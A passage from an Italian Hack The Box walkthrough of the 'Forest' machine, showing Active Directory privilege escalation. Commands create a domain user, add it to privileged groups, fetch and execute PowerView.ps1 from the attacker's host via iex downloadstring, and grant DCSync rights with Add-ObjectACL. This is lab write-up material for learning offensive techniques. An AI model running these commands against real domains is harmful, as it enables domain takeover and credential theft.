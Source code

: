   <img src="/Immagini/Windows-Box/Forest/forest-7.png"/>
</p>

Uno dei path mostra che il gruppo _Exchange Windows Permissions_ ha privilegi di tipo _WriteDacl_ che permettono agli utenti di aggiungere ACL ad un oggetto. Questo vuol dire che (come utente _svc_alfresco_) posso aggiungere un utente a questo gruppo fornendogli privilegi _DCSync_.

Ritorno quindi sulla shell _WinRM_ e aggiungo un nuovo utente ai gruppi _Exchange Windows Permissions_ e _Remote Management Users_:

```bash
net user naclapor topolino123! /add /domain
```

```bash
net group "Exchange Windows Permissions" naclapor /add
```

```bash
net localgroup "Remote Management Users" naclapor /add
```

Procedo scaricando sulla macchina vittima il file [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1):

```bash
iex(new-object net.webclient).downloadstring('http://10.10.14.8:8888/PowerView.ps1')
```

Successivamente, utilizzo Add-ObjectACL con le credenziali dell'utente appena creato fornendogli i privilegi DCSync:

```bash
$password = convertto-securestring 'topolino123!' -asplain -force
```

```bash
$cred = new-object system.management.automation.pscredential('htb\naclapor', $password)
```
```bash
Add-ObjectACL -PrincipalIdentity naclapor -Credential $cred -Rights DCSync
```
